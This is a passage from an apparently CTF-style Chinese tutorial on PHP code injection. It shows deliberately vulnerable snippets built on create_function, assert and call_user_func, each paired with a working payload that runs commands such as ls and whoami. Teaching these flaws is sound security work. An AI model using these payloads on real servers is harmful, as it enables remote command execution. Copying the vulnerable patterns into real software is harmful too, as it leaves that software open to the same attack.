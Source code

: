 > b= ;}phpinfo();/\*

在function函数中即

function lambda(){  
    echo ' ' ;}phpinfo();/\*  
}

后面的内容注释掉了，即执行命令

![image-20220307182804462.png](https://www.hetianlab.com/headImg.action?news=92804c82-428b-4e44-90a7-5dbe47bf31f7.png)

##### **E.g.3**

<?php  
error\_reporting(0);  
show\_source(\_\_FILE\_\_);  
$a = "$\_GET\[d\]";  
$b='print'.$a.';';  
$f = create\_function('$a',$b);  
$f($a)

跟上面一样，虽然有一点变形，但是再$b的打印上没有特殊之处，所以payload:

> d=1;}system(%27ls%27);/\*

一致。

![image-20220307182819293.png](https://www.hetianlab.com/headImg.action?news=6c9f2a83-d700-4f82-845d-a0190748b75b.png)

##### **E.g.4**

<?php  
error\_reporting(0);  
show\_source(\_\_FILE\_\_);  
$a = "$\_GET\[b\]";  
assert($a);  
?>

没什么特别之处，assert直接作为函数执行，payload:

> ?b=system(%27ls;%27)

##### **E.g.5**

<?php  
error\_reporting(0);  
show\_source(\_\_FILE\_\_);  
$a = "$\_GET\[b\]";  
$b = "$\_GET\[c\]";  
call\_user\_func($a,$b);  
?>

**call\_user\_func()**函数的特点，知道后面的后面的**$b**为参数，前面的**$a**为函数即可

payload:

> ?b=system&c=whoami

